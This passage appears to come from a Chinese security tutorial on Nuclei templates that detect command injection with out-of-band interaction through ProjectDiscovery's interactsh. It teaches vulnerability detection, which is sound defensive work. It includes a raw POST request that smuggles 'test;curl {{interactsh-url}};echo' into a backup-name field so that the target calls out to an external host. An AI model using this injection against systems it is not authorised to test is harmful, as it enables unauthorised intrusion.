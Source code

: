 ```yaml
          - "contains(body_5,'downloadbackup.php?f=dbbackup-')"
        condition: and

```

## 带外交互

测试应用程序中的远程代码执行（RCE）或服务端请求伪造（SSRF）漏洞的一种可靠方法是使用带外交互的payload。本质上，这意味着诱使应用程序后端连接到我们可以监控的外部服务。各种工具常用的交互方式是进行DNS查询或向安全研究人员可以访问日志功能的主机发起HTTP请求。

ProjectDiscovery的interactsh工具就是为此目的而设计的。为了演示如何在Nuclei模板中使用它，我们可以修改最后一个请求，将interactsh UURL作为命令注入payload的一部分注入，并使用一个匹配器来检查交互。

模板中的第五个原始HTTP请求将更改为以下内容：

```yaml
    - |
      POST {{Path}}/backup_db.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
 backup_name=test%3Bcurl+{{interactsh-url}}%3Becho+&submit=Create+Backup&csrftoken={{csrftoken}}
```

经过URL解码后，注入到漏洞参数的payload是：

```yaml
test;curl {{interactsh-url}};echo
```

这会生成一个interactsh URL，比如`vyxlk2172l7dqfhn58gvy5362x8nwc.oast.fun` ，并在发送到服务器之前将其插入到请求中。

匹配器将更改为以下内容：

```yaml
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"
```

这个匹配器会查询`interactsh`服务器，并检查它是否收到了来自脆弱目标的HTTP请求，除了HTTP交互，我们也可以使用DNS或SMTP。有关使用带外交互的更多详细信息，请参阅[模板指南](https://nuclei.projectdiscovery.io/templating-guide/interactsh/?ref=blog.projectdiscovery.io)。

以下是一个Nuclei检测`interactsh`的示例输出：

![](../../img/capture20220617172011.png)
